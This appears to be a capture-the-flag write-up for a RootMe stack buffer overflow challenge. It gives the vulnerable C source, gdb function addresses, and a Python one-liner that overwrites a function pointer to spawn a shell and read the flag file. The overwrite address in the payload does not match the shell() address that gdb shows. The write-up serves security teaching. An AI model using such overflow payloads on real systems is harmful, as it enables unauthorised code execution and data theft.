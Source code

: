 # ELF x86: Stack buffer overflow basic 2

[RootMe challenge: ELF x86 - Stack buffer overflow basic 2](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-2?lang=en): An intermediate level to familiarize yourself with stack overflows.

Environment configuration:

```text
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomisation 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 
```

Source code:

```text
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

----

```text
app-systeme-ch15@challenge02:~$ gdb ch15
GNU gdb (Ubuntu 8.1.1-0ubuntu1) 8.1.1
...
Reading symbols from ch15...(no debugging symbols found)...done.
```

```text
(gdb) info functions
All defined functions:
 
Non-debugging symbols:
0x08048350  _init
0x08048390  fgets@plt
0x080483a0  geteuid@plt
0x080483b0  puts@plt
0x080483c0  system@plt
0x080483d0  setreuid@plt
0x080483e0  __libc_start_main@plt
0x080483f0  __gmon_start__@plt
0x08048400  _start
0x08048440  _dl_relocate_static_pie
0x08048450  __x86.get_pc_thunk.bx
0x08048460  deregister_tm_clones
0x080484a0  register_tm_clones
0x080484e0  __do_global_dtors_aux
0x08048510  frame_dummy
0x08048516  shell
0x08048559  sup
0x08048584  main
0x080485de  __x86.get_pc_thunk.ax
0x080485f0  __libc_csu_init
---Type <return> to continue, or q <return> to quit---q
Quit
```

```text
app-systeme-ch15@challenge02:~$ cat <(python -c "print 'A'*128 + '\x64\x84\x04\x08'") - | ./ch15
cat .passwd
```

## Resources

* [Débordement de tampon - dans la pile](https://www.root-me.org/spip.php?article807)
* [François Boisson : Buffer Overflow ou explication de «une faille de type bufferoverflow ...](https://www.youtube.com/watch?v=u-OZQkv2ebw) (YouTube)
* [Stack Bug - Exploitation avancee de buffer overflow](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/FR%20-%20Stack%20Bug%20-%20Exploitation%20avancee%20de%20buffer%20overflow.pdf)
* [Exploiting Stack Buffer Overflows in the Linux x86 Kernel](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Exploiting%20Stack%20Buffer%20Overflows%20in%20the%20Linux%20x86%20Kernel.pdf)
* [64 Bits Linux Stack Based Buffer Overflow](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%2064%20Bits%20Linux%20Stack%20Based%20Buffer%20Overflow.pdf)